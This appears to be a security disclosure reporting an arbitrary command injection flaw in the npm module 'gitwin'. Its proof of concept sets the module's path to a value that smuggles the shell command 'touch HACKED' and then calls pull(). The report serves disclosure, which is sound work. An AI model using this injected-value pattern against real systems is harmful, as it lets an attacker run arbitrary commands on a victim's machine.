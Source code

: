 # :bug: Description

The `gitwin` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var _gitwin = require('gitwin');
var gitwin = new _gitwin();
gitwin.path = "test; touch HACKED; #";
gitwin.pull();

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i gitwin # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
